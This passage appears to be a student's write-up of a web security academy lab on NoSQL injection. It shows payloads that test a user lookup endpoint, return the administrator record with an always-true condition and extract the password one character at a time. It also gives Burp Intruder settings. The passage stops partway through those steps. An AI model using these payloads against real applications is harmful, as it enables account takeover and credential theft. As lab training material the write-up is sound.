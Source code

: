 ```
admin' && this.username!='
```

```
admin' && this.foo!='
```

<br><br>

#### Lab: Exploiting NoSQL injection to extract data

* Extract the password for the administrator user, then log in to their account. 

* We are given credentials to log into the application - wiener:peter

* The following endpoint is vulnerable to NoSQL Injection:

	* https://0a06006303e0b0d18172f72800dc0065.web-security-academy.net/user/lookup?user=wiener

* The following payloads where used to identify the vulnerability:

```
user=wiener'%26%26+0+%26%26+'x
```

```
user=wiener'%26%26+1+%26%26+'x
```

```
user=wiener'&& 1 && 'x
```


<br>

* The following payload returned the first user details in the database collection which was for the username "administrator".  This confirms that there is a user with that name.

```
user=wiener'||'1'%3d%3d'1
```

<br>

* The following payload will allow us to extract the administrator's password one character at time:

```
user=administrator'+%26%26+this.password[0]+%3d%3d+'a'+||+'a
```

Steps for Burp Intruder:

* Attack type:  Cluster bomb

* Send request with payload to intruder

* Set 2 payload positions

```
user=administrator'+%26%26+this.password[<position 1>]+%3d%3d+'<position 2>'+||+'a
```
